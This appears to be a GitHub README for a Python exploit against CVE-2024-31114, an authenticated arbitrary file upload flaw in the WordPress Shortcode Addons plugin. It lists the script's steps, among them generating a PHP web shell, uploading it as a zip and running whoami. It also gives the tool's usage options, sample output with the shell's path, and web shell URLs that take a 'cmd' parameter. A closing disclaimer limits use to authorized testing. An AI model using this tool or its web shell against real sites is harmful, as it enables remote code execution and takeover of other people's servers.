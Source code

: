 # CVE-2024-31114 - WordPress Shortcode Addons RCE Exploit

**Shortcode Addons <= 3.2.5 – Authenticated (Admin+) Arbitrary File Upload**  
**CVE ID:** CVE-2024-31114  
**CVSS Score:** 9.1 (Critical)  

---

## 🛠️ Vulnerability Description

The **Shortcode Addons – with Visual Composer, Divi, Beaver Builder, and Elementor Extension** plugin for WordPress is vulnerable to arbitrary file uploads due to **missing file type validation** in all versions **up to and including 3.2.5**.

This flaw allows **authenticated attackers with administrator-level access or higher** to upload arbitrary files to the server — which can lead to **Remote Code Execution (RCE).**

---

## 🚀 Script Description

This Python script automates exploitation of the vulnerability. It performs:

1. Disabling SSL verification
2. Logging in with given credentials
3. Extracting the CSRF token (`_wpnonce`)
4. Generating a PHP shell (`nxploit.php`)
5. Compressing and uploading it as a `.zip`
6. Confirming the upload and accessing the shell
7. Executing `whoami` on the target server

---

## 🧪 Usage

```bash
usage: CVE-2024-31114.py [-h] -u URL -un USERNAME -p PASSWORD

Shortcode Addons <= 3.2.5 - Authenticated (Admin+) Arbitrary File Upload
By: Nxploited | Khaled Alenazi

options:
  -h, --help            Show this help message and exit
  -u, --url URL         Target URL (e.g. http://target.com)
  -un, --username USERNAME   WordPress Admin Username
  -p, --password PASSWORD    WordPress Admin Password
```

---

## 📤 Example Output

```
[+] Authentication successful.
[+] _wpnonce extracted: 9d8dbbc630
[+] Payload nxploit.zip created.
[+] Payload uploaded.
[+] Shell is accessible at: http://target/wp-content/uploads/shortcode-addons/nxploit.php
[+] Command output:
------------------
www-data
------------------
[+] Temporary files removed.
```

---
## 🐚 Web Shell Usage

Once the payload is uploaded, you can execute system commands using the following format:

```
http://target/wp-content/uploads/shortcode-addons/nxploit.php?cmd=command
```

🔹 Example:

```
http://target/wp-content/uploads/shortcode-addons/nxploit.php?cmd=ls
```

This will list the contents of the current directory on the server.


## ⚠️ Disclaimer

This tool is for **educational and authorized testing purposes only**.  
The author is **not responsible** for any misuse or damage caused by this script.

Use responsibly and only on systems you have explicit permission to test.

---
**By:** Nxploited | Khaled Alenazi  



